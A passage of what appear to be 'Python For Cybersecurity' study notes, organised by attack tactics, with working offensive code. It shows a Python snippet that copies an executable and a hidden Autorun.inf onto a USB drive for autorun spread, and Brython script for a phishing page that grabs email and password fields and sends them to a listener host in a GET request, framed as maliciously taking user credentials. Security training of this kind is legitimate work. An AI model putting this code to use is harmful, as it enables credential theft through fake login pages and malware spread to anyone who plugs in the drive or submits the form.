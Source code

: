 ```python
# Move files to USB and set to hidden
shutil.move(exename,usbdir)
shutil.move("Autorun.inf",usbdir)
os.system("attrib +h "+os.path.join(usbdir,"Autorun.inf"))
```

# 2. Execution, persistence, privilege escalation and evasion

## Python For Execution

1. User Execution - Malicious Links
2. Scheduled Task/Job - Scheduled Execution

### 1. User Execution

### http

[](https://docs.python.org/3/library/http.html)

### urllib

[urllib - URL handling modules - Python 3.10.5 documentation](https://docs.python.org/3/library/urllib.html)

### brython

[Brython documentation](https://www.brython.info/static_doc/en/intro.html)

### Malicious Links using http.server, urllib.parse and brython

[example.html](Python%20For%20Cybersecurity%20eb6905ebe9ef4a52a99d8d69de193b6a/example.html)

brython.js

brython_stdlib.js

> We can create a proper html page to maliciously takeout the user credentials out. Brython helps inserting a python interpreter into a webpage very easily.
> 

```jsx
<script type="text/python3">
from browser import document,ajax
host="127.0.0.1"
port="8443"
def submitCreds(ev):
	username=document['email'].value
	password=document['pass'].value
	url = "http://"+host+":"+port+"?user="+username+"&password="+password
	req = ajax.ajax()
	req.open("GET",url,True)
	#req.bind("complete",complete)
	req.send()
document["submit"].bind("click",submitCreds)
</script>
```
